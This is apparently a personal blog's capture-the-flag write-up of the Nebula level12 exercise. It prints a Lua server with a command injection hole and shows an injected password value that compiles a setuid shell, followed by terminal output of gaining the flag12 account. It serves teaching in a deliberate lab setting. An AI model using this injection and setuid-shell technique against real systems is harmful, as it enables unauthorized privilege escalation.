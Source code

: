 +++
author = "pwntester"
categories = ["nebula12"]
date = 2013-11-24T20:37:00Z
description = ""
draft = false
slug = "nebula-level12-write-up"
tags = ["nebula12"]
title = "Nebula level12 write-up"

+++

In [Level12](http://exploit-exercises.com/nebula/level12) we are given the following code:

```lang-clike line-numbers 
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
    print("trying " .. line) -- log from where ;\
    local h = hash(line)

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```

We have a command injection as the **password** variable can be controlled by the user and it is used to create a command that will be run in the system. All we need to do is inject our commands. In this case, we will be using the shell wrapper shown in **level 11**:

```lang-bash line-numbers 
level12@nebula:~$ nc localhost 50001
Password: 1; gcc -o /tmp/shell /tmp/shell.c; chmod +s /tmp/shell; echo 1
Better luck next time
level12@nebula:~$ ls -la /tmp
total 32
drwxrwxrwt  4 root    root    4096 Nov 24 12:37 .
drwxr-xr-x 22 root    root    4096 Dec  6  2011 ..
-rwsr-sr-x  1 flag12  flag12  7241 Nov 24 12:43 shell
-rw-rw-r--  1 level11 level11  180 Nov 24 11:48 shell.c
```

Now lets run our shell and get the flag:

```lang-bash line-numbers 
level12@nebula:~$ cd /tmp
level12@nebula:/tmp$ ./shell
sh-4.2$ id
uid=987(flag12) gid=1013(level12) egid=987(flag12) groups=987(flag12),1013(level12)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

Voila !!

